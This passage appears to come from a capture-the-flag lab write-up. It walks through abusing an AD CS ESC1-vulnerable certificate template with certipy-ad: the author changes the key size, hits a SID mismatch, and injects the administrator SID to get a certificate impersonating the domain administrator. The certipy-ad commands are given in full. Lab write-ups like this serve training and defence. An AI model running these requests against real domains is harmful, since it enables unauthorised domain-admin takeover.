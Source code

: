 #### Modifying ESC1 Key Length Request To Get A Certificate: {#modifying-esc1-key-length-request-to-get-a-certificate}

If we check the `certipy-ad req --help` we can see it's possible to modify the key size.
![](/ox-hugo/2025-09-18-072225_.png)
We need to pass the argument `-key-size [length]`, we can also see the default length is `2048` so let's double the length and see if that resolves this.

**Why we might “double” the key length**: Some AD CS templates enforce a minimum key length (`msPKI-Minimal-Key-Size`). If 2048 fails or you want stronger keys, bump to 4096. [More information here](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/58943ff1-024f-46f3-8a6f-baae06de8351)
![](/ox-hugo/2025-09-18-162116_.png)

```shell
certipy-ad req -k -no-pass -dc-ip $box -target DC.$domain -ca 'retro-DC-CA' -template 'RetroClients' -upn administrator@$domain -dc-host dc.$domain -key-size 4098
```

As we can see we are granted a ticket `administrator.pfx`
![](/ox-hugo/2025-09-18-072522_.png)

#### Attempting To Authenticate With The Ticket: {#attempting-to-authenticate-with-the-ticket}

Now can authenticate with the ticket and get a TGT as the administrator.

```shell
 certipy-ad auth -username "administrator" -pfx administrator.pfx -domain $domain -dc-ip $box
```

Looks like we have another issue, we have a `SID` mismatch between the certificate and the administrator user.
![](/ox-hugo/2025-09-18-072846_.png)
It says to check the wiki so lets do that&#x2026;&#x2026;well that did not shed any further light however we can supply the `SID` of the user we are trying to impersonate with the `-sid` flag, which should hopefully resolve this issue as we will be injecting it straight into the certificate.

#### Supplying The SID To Get A Valid Certificate: {#supplying-the-sid-to-get-a-valid-certificate}

We can get the SID from bloodhound or from output of the SID busting we did in our initial enumeration phase.
![](/ox-hugo/2025-09-18-073447_.png)

Let's request another certificate this time with the supplied SID and the modified key length.

```shell
certipy-ad req -k -no-pass -dc-ip $box -target DC.$domain -ca 'retro-DC-CA' -template 'RetroClients' -upn administrator@$domain -dc-host dc.$domain -key-size 4098 -sid "S-1-5-21-2983547755-698260136-4283918172-500"
```

We have now have the cert with the administrator `SID` specified.
![](/ox-hugo/2025-09-18-073855_.png)
